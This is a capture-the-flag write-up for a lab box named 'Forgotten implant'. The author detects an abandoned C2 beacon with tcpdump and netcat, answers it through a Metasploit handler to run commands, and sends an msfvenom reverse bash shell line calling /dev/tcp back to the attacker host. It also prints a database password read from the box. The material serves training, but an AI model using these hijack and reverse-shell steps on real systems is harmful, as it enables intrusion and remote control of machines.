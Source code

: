 # Forgotten implant

Forgotten implant. Quite an original box on how to get into an already hacked device where the C2 implant was not removed.

With the help of the forgotten implant you must gain entry again.


## Getting in

As always, start with nmap

nmap -sC -sV -T5 -p- ${IP} -vv -oN box

But it does not find any open ports.

Ok, maybe udp? That matters sometimes. But since udp scan are SLOW as fok, better pass --top-ports 1024 to nmap.

nmap -sC -sV -sU -T5 --top-ports 1024 -vv -oN box ${IP}

blabla
Host is up, received reset ttl 63 (0.032s latency).
Skipping host 10.10.243.126 due to host timeout
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done -- 1 IP address (1 host up) scanned in 905.67 seconds

Nothing!

ok thats new, but as the hint says

"Your port scan is not misleading you"

this must be by design.

Knowing how C2 systems work, then it is only logical that the machine is sending data out and not in.
It's probably sending a beacon, asking the server what to do.

So let's see what tcpdump has to say on the vpn's network interface. tun0

```
sudo tcpdump -i tun0
```

17:42:04.029478 IP ${LIP}.81 > 10.10.169.196.43862: Flags [R.], seq 0, ack 3660637020, win 0, length 0

So it seems that something is sending packets to port 81. okay...

then lets see what by starting netcat.

```
nc -lnvp 81 
```

After some seconds an http request comes in written with python's requests package.

```
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDhUMTU6NDQ6MDEuODkyOTY5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
Host: 10.9.6.179:81
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

it's sending a beacon to /heartbeat with base64.

the decoded base64 means.

```
{"systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

Aha! It's querying for commands/jobs to do.

Well then, then there are a few options. 

1. We can write a server with a heartbeat endpoint.
2. We can use a real C2 like metasploit

Let's go for option 2, since this box is all about C2.

So fire up metasploit. metasploit -q.
And start catching the beacon with payload meterpreter/reverse_http.

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_http

set LPORT 81
set LHOST tun0

run

[*] Started HTTP reverse handler
```

Soon the requests come in and metasploit prints them.

[*] http:/IP:81 handling request from 10.10.243.126; (UUID: g6wztzlc) Unknown request to /heartbeat/eyJ0aW1lIjogIjIwMjMtMDctMzBUMDc6MDQ6MDEuODcyNTQ2IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAiY2F0IHVzZXIudHh0IiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogIlRITXs5MDJlOGU4YjFmNDlkZmViNjc4ZTQxOTkzNWJlMjNlZn1cbiJ9LCAic3VjY2VzcyI6IGZhbHNlfQ== with UA 'python-requests/2.22.0'

So we need to send messages back and with the reverse_http payload all http headers and body and what not can be manipulated.
"show advanced" in meterpreter and there we have HttpUnknownRequestResponse. That's exactly what metasploit is saying! unknown request.

First try to get command execution by base64 encoding a simple ls.

```
{"job_id": 0, "cmd": "ls"}
```

Cyberchef is a handy tool for base64 encoding, base64 clutters up your history IMO.

So:
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIn0=

And wait. The beacon comes back with.....

"Unknown request to /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInByb2R1Y3RzLnB5XG51c2VyLnR4dFxuIn0="

and that base64 string means....

"{"job_id": 0, "cmd": "ls", "success": true, "result": "products.py\nuser.txt\n"}"

We have command execution!

So yeah lets generate a shell with msfvenom and encode it inside the json.

```
msfvenom -p cmd/unix/reverse_bash lhost=tun0 lport=10666 R
```

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 70 bytes
bash -c '0<&94-;exec 94<>/dev/tcp/IP/10666;sh <&94 >&94 2>&94'

So encoded to base64 we get.

```
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImJhc2ggLWMgJzA8JjEyNy07ZXhlYyAxMjc8Pi9kZXYvdGNwLzEwLjkuNi4xNzkvMTA2NjY7c2ggPCYxMjcgPiYxMjcgMj4mMTI3JyJ9
```

run

start another metasploit and set the payload to cmd/unix/reverse_bash

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp and the correct port and interface
msf6 exploit(multi/handler) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash

run
Then run the http payload and wait.
Soon we get "[*] Accepted the first client connection..." but thats not enough, no real shell is generated.

and we have shell from the beacon

type shell in metasploit to upgrade to proper bash shell.

from there it's time to go for root, that is covered in other writeups. I tried with metasploit's post exploitation modules.

```
ada@forgottenimplant:~$ cat products.py
cat products.py
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='s4Ucbrme'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')

    mysql -h localhost -u app -p
mysql -h localhost -u app -p
Enter password: s4...
```
